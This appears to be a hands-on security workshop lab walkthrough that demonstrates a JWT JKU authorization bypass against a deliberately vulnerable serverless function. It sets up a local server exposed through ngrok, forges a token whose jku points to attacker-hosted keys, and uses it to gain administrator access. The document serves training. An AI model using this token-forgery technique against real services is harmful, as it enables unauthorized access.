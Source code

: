 ## JWT - JKU Authorization Bypass

* In your image, navigate over to `/root/labs/Serverless-Workshop/`
* Run `pip3 install pipenv`
* Run `pipenv install` and `pipenv shell` 
* In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`
* Run `sls plugin install -n serverless-python-requirements`
* Wait for instructor to explain the contents of the lab
* Install a package for this to work `npm install -g jwt-cli`
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely


Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

Copy the `token` value and run `jwt <copied token value`, you should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 
* In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`
* Run: `python -m http.server`

In the **Tab 3**:
* Run `ngrok http 8000`

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Run `python token_gen.py https://f8ccd11d.ngrok.io` 
* Copy the generated token starting `ey....`
* Run 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

You should see a response, that you are administrator


